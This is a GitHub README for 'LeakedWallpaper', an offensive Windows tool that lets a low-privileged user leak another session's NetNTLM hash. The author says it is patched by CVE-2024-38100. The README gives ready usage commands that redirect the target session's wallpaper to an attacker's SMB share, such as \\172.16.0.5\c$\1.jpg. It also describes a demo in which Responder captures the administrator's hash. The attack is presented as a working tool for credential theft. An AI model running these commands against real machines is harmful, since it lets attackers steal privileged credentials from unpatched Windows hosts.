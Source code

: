 # Leaked Wallpaper
This is a privilege escalation tool (fixed with CVE-2024-38100 in KB5040434) that allows us to leak a user's NetNTLM hash from any session on the computer, even if we are working from a low-privileged user.

# Usage

```shell
.\LeakedWallpaper.exe <session> \\<KALI IP>\c$\1.jpg

# Example
  .\LeakedWallpaper.exe 1 \\172.16.0.5\c$\1.jpg
```

# Demo
## Video
https://youtu.be/InyrqNeaZfQ

If blocked, see [demo.mkv](https://github.com/MzHmO/LeakedWallpaper/blob/main/demo.mkv)

## Photos
Imagine we have two sessions on the host:
- administrator is a privileged account, its NetNTLM hash is what we want to get
- exploit is a low-privileged account, we are working from it.

Current session id: 2
Target session id: 1
![изображение](https://github.com/user-attachments/assets/c1185c7c-5b9b-490d-ba51-10e54fc0e819)

Responder IP: 172.16.0.5
Windows IP: 172.16.0.2
![изображение](https://github.com/user-attachments/assets/46ab4c8b-0563-4f53-ac2c-8f4bb9849200)

Let's get administrator NetNTLM-hash with the tool!
```shell
.\LeakedWallpaper 1 \\172.16.0.5\c$\1.jpg
```

Profit!
![изображение](https://github.com/user-attachments/assets/2aff56df-189f-44cd-85ce-ef3c4437710c)
